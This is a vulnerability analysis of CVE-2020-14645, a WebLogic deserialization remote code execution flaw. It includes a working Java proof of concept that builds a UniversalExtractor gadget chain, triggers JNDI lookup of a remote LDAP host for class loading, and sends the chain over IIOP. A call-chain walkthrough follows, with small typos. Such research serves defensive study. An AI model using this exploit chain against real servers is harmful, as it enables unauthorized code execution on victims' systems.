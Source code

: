 # Analysis of Weblogic Remote Command Execution Vulnerability (CVE-2020-14645)

> Author: White Hat Alliance Security Research Institute @hu4wufu
>
> Verified by: White Hat Alliance Security Research Institute @r4v3zn



## 0x00 Preface

The recently disclosed deserialization RCE vulnerability CVE-2020-14645 in Weblogic is a bypass of CVE-2020-2883 patch. CVE-2020-2883 essentially called arbitrary methods through ReflectionExtractor, which then executed arbitrary commands using the exec method of the Runtime object. The patch blacklisted ReflectionExtractor, so a new exploit chain could be constructed using UniversalExtractor. UniversalExtractor can call the get and is methods arbitrarily, which leads to the exploitation of JDNI remote dynamic class loading. UniversalExtractor is unique to Weblogic version 12.2.1.4.0, and this article analyzes it based on that version.



## 0x01 Vulnerability Reproduction

The POC for exploiting the vulnerability is as follows. The analysis below is based on this POC:

```java
ChainedExtractor chainedExtractor = new ChainedExtractor(new ValueExtractor[]{new ReflectionExtractor("toString",new Object[]{})});
PriorityQueue<Object> queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor));
queue.add("1");
queue.add("1");
// Construct UniversalExtractor to call any method of JdbcRowSetImpl object
UniversalExtractor universalExtractor = new UniversalExtractor();
Object[] object = new Object[]{};
Reflections.setFieldValue(universalExtractor, "m_aoParam", object);
Reflections.setFieldValue(universalExtractor, "m_sName", "DatabaseMetaData");
Reflections.setFieldValue(universalExtractor, "m_fMethod", false);
ValueExtractor[] valueExtractorList = new ValueExtractor[]{universalExtractor};
Field[] fields = ChainedExtractor.class.getDeclaredFields();
Field field = ChainedExtractor.class.getSuperclass().getDeclaredField("m_aExtractor");
field.setAccessible(true);
field.set(chainedExtractor, valueExtractorList);
JdbcRowSetImpl jdbcRowSet = Reflections.createWithoutConstructor(JdbcRowSetImpl.class);
jdbcRowSet.setDataSourceName("ldap://ip:port/uaa");
Object[] queueArray = (Object[])((Object[]) Reflections.getFieldValue(queue, "queue"));
queueArray[0] = jdbcRowSet;
// Send IIOP protocol data packet
Context context = getContext("iiop://ip:port");
context.rebind("hello", queue);
```

Successfully popped the computer

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415758370-f75b02fe-344f-4559-9714-237bddccd182.png)



## 0x02 Vulnerability Analysis

Those familiar with JDNI injection know that the vulnerability is triggered in the lookup() method. In this case, we set a breakpoint at line 326 of the lookup() method in JdbcRowSetImpl.class.

The following is a brief call chain for exploiting the vulnerability:

We start from the beginning and know that the essence of deserialization is to restore objects according to certain rules when we read data from the IO stream. We set a breakpoint at in.readObject() and investigate the PriorityQueue.readObject() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415821026-3da34ef1-87fc-479e-bb41-2434f7c3a484.png)

Here, line 782 executes s.defaultReadObject(), line 785 executes s.readInt() to assign the object input stream size and array length, and line 790 executes a for loop to assign the s.readObject() method to the queue object array one by one. Here, the length of the queue object array is 2.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415957621-409a311b-a101-4090-b6c9-54c784f60811.png)

Then, we continue to investigate the heapify() method. PriorityQueue is actually a min-heap, and sorting and heapifying are achieved through the siftDown() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415986883-35de3200-6994-4d1d-8682-89e408b816fe.png)

When we investigate the siftDown() method, it first checks whether the comparator is null. We can see how the comparator is assigned. It is assigned in the constructor of PriorityQueue, and besides assigning this.comparator, it also initializes the length through initialCapacity.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416031870-19799fef-41c8-4d95-8270-66887e64dff1.png)



Since the comparator is not null, we execute the siftDownUsingComparator() method, so we continue to investigate the siftDownUsingComparator() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416174041-59523f9f-5924-4bad-a016-271fa361215a.png)

We then continue to investigate the ExtractorComparator.compare() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416182420-5fb0315b-a4f3-433d-9a08-032c991d79f0.png)

Here, the method this.m_extractor.extract() is called. Let's take a look at this.m_extractor. It is related to the extractor that was passed in. Here, we need to construct this.m_extractor as ChainedExtractor in order to call the extract() method of ChainedExtractor.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416208256-6519a0dd-6767-4421-bb2e-e3aba9225eb1.png)

Continuing to investigate the ChainedExtractor.extract() method, we can see that it traverses the aExtractor array and calls the extract() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416221034-a1d7102d-a2b1-4d17-a1ca-4c90ad3768e5.png)

Continuing to investigate the extract() method, because m_cacheTarget is marked as transient, it cannot be deserialized, so only the else part can be executed, and the vulnerability point is ultimately triggered through this.extractComplex(oTarget).

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416234128-15c8dd92-e6db-47b9-b9bb-d21a6a0c5073.png)

In this.extractComplex(oTarget), we can see that the reflection is executed through method.invoke(), where oTarget and aoParam are both controllable.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416266141-1d4ba18c-2d7a-4199-98ad-af91729c21fa.png)

We continue to investigate the findMethod() method at line 190. At line 475, fExactMatch needs to be true and fStatic needs to be false in order to allow the passed-in clz to access any method. fStatic is controllable, and fExactMatch defaults to true, which can be kept unchanged as long as it does not enter the for loop, making cParams an empty Class array or aclzParam an empty Class array. Here, aclzParam is obtained from the getClassArray() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416415425-27600d94-5f46-4c58-bffb-9f9c57f166cf.png)

In getClasssArray, the corresponding Class is obtained by obtaining the value of the input parameter.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416427543-111c0777-9237-4417-82e9-301c0f0d3ba9.png)

Since the passed-in aoParam is an empty object[], the corresponding Class is also an empty Class[], and when isPropertyExtractor() is called, we can see that the opposite value of this._fMethod is obtained.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416439293-189b1d63-1f9e-4a56-a4ae-96836e411432.png)

Since m_fMethod is marked as transient and not serialized, by analyzing the assignment process of m_fMethod, it can be found that sCName is obtained during init() and assigned by judging whether it ends with ().

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416450876-2776b3f5-1567-48ae-8c3f-bebb758a2925.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416458699-c94cf671-d802-4ed0-b022-b3dbf98aa93e.png)

Due to the parameter being this, the getValueExtractorCanonicalName() method always returns null.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416492455-821f582a-d5f2-4813-a8fe-280bd7944089.png)

Continuing to investigate the getValueExtractorCanonicalName() function, it ultimately calls computeValuExtractorCanonicalName for processing.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416508674-e6231edf-117f-4337-96ef-6142ad6b9cb0.png)

After continuing to investigate computeValuExtractorCanonicalName(), it will return null if aoParam is not null and the array length is greater than 0. Because aoParam must be null, the method we call must have no parameters. Then, if the method name sName does not end with (), it will simply return the method name. Otherwise, it will determine whether the method name starts with a prefix in the VALUE_EXTRACTOR_BEAN_ACCESSOR_PREFIXES array. If so, it will be truncated and returned.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416528671-42e3d90c-59bc-407b-a8af-22eb5904fb71.png)

Back to the extractComplex() method, in the if condition, the method name returned above will be capitalized and concatenated with a prefix in the BEAN_ACCESSOR_PREFIXES array to determine whether the spliced method exists in the clzTarget class. Here, we can see that we can only call parameterless methods that start with get or is in any class. This explains why the poc uses JNDI to achieve remote dynamic class loading.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416541300-b45db286-ade1-4e54-b781-ddb1c9b4a50b.png)

Continuing to investigate the method.invoke() method will directly jump to JdbcRowSetImpl.getDataba seme taData().

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416628384-fd4f128d-a2c7-4acf-bda1-f7156440b1e5.png)

Since JdbcRowSetImpl.getDataba seme taData() calls this.connect(), we can see that the lookup operation is executed at line 326, triggering the vulnerability.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416645367-84d38989-f394-40ff-987c-5e6bae8a437f.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416679859-0dc74278-2413-4d7e-be66-891e4d4e977b.png)

By continuing to investigate getDataSourceName(), we can see that the controllable dataSource is called.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416694211-5fb787b1-926b-4eca-bb5a-89e4e196983a.png)



## 0x03 Summary

In summary, this vulnerability mainly exploits UniversalExtractor to bypass the blacklist and call get and is methods arbitrarily, leading to JNDI injection and extending CVE-2020-14625.



## 0x04 References

- [WebLogic coherence UniversalExtractor deserialization vulnerability (CVE-2020-14645) analysis](https://paper.seebug.org/1280/#cve-2020-14645)
- https://www.oracle.com/security-alerts/cpujul2020.html
